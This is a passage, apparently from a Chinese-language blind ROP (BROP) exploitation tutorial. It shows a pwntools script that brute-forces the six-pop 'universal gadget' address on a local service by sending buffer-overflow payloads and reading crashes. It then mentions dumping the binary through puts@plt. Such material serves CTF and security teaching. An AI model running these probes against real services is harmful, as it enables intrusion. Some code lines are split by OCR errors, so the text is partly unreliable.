 4. 得到 stop_addr 之后，就可以继续探索其它的 rop_gadget，这里寻找万能 gadget 的六个 pop 的地方：

```
#注释头
 
def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) +
        p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try: # check
                payload = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p
                64(5) + p64(6)
                #Six pop without stop_addr
                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
                #Not crash,Bad addr.
            except:#Crash,success addr
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

```

找到之后，需要再次检查一下，用来确定是不是万能 gadget，因为如果有程序六个 pop 之后不 retn，那就不是万能 gadget。因为需要 dump 二进制文件，所以需要万能 gadget 中的 Pop rdi;ret 这个 gadget 来 dump 文件。

5. 寻找 puts 函数的 plt 表，方便之后调用 puts 函数和 pop rdi;ret 这个 gadget 来 dump 二进制文件。
